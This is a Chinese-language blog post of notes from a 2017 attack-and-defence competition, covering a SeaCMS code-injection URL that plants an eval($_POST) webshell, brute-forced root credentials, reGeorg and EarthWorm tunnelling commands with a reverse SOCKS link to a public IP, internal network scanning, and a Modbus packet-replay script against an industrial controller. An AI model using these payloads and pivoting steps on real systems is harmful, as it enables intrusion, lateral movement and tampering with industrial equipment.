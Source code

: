 ```yaml
---
layout:		post
title:		"铁人三项数据赛笔记"
subtitle:		"铁人三项数据赛@CUIT"
date:		2017-06-08 23:38:23 +0800
author:		"Les1ie"
tags: 
  - 学习笔记
  - 网络安全
---
```

## 0x00 序言
2017年6月8日23:40:19

这是前段时间参加启明星辰比赛的笔记，当时写得匆忙，没有整理排版

## 0x01 正文
## 2017年4月22日23:53:38
最开始是202.1.1.2 是seacms, 网上找了下exp, 发现一个新出来的
菜刀直接连  
`http//202.1.1.2/search.php?searchtype=5&tid=&area=eval($_POST[cmd])`密码cmd
直接拿到后台

找到了数据库的配置文件，使用菜刀右键数据库管理，按照模板修改用户名密码。
另外一半hydra爆破也有了成果， 202.1.1.2 root 1qaz2wsx， 用了个1000的字典爆出来

搭建tunnel，直接用reGeorg(见github)，或者ew(rootkiter.com/EarthWorm),  reGeorg用菜刀上传到后台，然后命令行执行 

`python reGerog.py -u http://202.1.1.2/upload.php -p 1080` 

然后使用proxychains4改`socks4 127.0.0.1`

1080即可代理本地流量到远程主机之后所有需要在远程主机扫描内网的操作都可以使用proxychains代理过去， 比如 `pc nmap -sP 192.168.5.1-255`, 但是proxychains 似乎不能代理ping发的icmp的包。

ew在普通网络下可以开公网ip的时候，如果可以开本机的端口，则 `./ew -s socksd -l 9999` 然后proxychains 里面设置socks5 202.1.1.2 9999即可使用正想代理
如果不能开公网ip则可以使用反弹shell的方式来建立连接 `./ew -s rcsocks -l 1080 -e 8888` 这个可以把本机的1080的流量转发到8888, 然后在内网端运行 `./ew -s rssocks -d 123.207.2.1 -e 8888` 将本地流量转发到公网的8888端口， proxychains 改设置 `socks5 123.207.2.1 1080` 即可，本机就用127.0.0.1
ew穿越两层内网的时候要复杂一点， 假设最外层是a, 最内层是c, 中间层是b, 那么在b上开一个隧道将流量转发到内层的c, 在b上运行 **./ew -s socksd -l 9999**, 然后在b上运行 `./ew -s lcx_tran -l 1080 -f 192.168.3.1(c机器) -g 9999` ，修改proxychains `socks5 ip_c 1080`, 即可，如果遇到更复杂的，看官方文档吧..

[F-Nascan](github.com/ywolf)是比较轻量的扫描工具，先icmp确认存活，然后扫端口，然后端口指纹，然后快照web, 就是直接提示web的服务的名字，直接给你网站的名字。
使用内网代理的时候，nmap特别吃力，就算加了-p也很慢，这个时候可以用 F-NAscan.py 来扫描，他有root权限的时候可以发icmp确认存活，普通权限不能发icmp,  `python F-NAscan.py -h 192.168.1`直接扫一个 0/24, 或者用 `python F-nascan.py -h 192.168.1.1-192.168.2.111` ， 以及 **python F-NAscan.py -h 192.168.1.2 -p 22, 80,445** 直接扫描指定端口 -m 指定线程数， -t 指定超时时间，默认十秒钟 扫内网的时候加个proxychains 即可


最后一个工业控制题目，是要arp欺骗工控，然后wireshark抓包，在重放数据包的时候使用python脚本

我写的脚本如下
```python
from socket import *

HOST = '192.168.4.10'
PORT = 502

BUFSIZE = 1024

ADDR = (HOST, PORT)

t = socket(AF_INET, SOCK_STREAM)
t.connect(ADDR)

# info = int(1cec00000006010600170001)
info = 0x1cec00000006010600170001
info = 0x1cec00000006010600170001
info =hex(info)

print info
t.send(info)


```
存在的问题是我把十六进制了一个数值，发送的是一个十六进制的数值串，这样导致发送的时候字符最后有一个 **L**, 这个表示这是 **long**类型的  
出题人给出了他的题解，比较后发现他是把文本转化成16进制字符串发送的。


```python
from socket import *

HOST = '192.168.4.10'
PORT = 502

ADDR = (HOST, PORT)

info = '1c7a00000006010600170001'

t = socket(AF_INET, SOCK_STREAM)
t.connect(ADDR)


t.send(info.decode('hex'))  


# 需要把发送的进行16进制decode, 这样传送的是16进制的文本

```
嗯，最后这一行代码价值2w软妹币外加一个奖杯

说几个失误的地方：
* 192.168.2.12 的ftp口令admin admin 没有爆破出来，这个是重大失误，一直没出ssh的也没有转移思路，这个有待改进
* 两层内网里面的主机没有映射出来以为服务器崩了，要求重置，扣了50分，但是给了提示做两层代理还是有帮助的，拿到了一个flag
* 最后的decode没有写上
* 平台445打进去了没有给工作人员讲，可能有加分

另： 

基础不牢，地动山摇



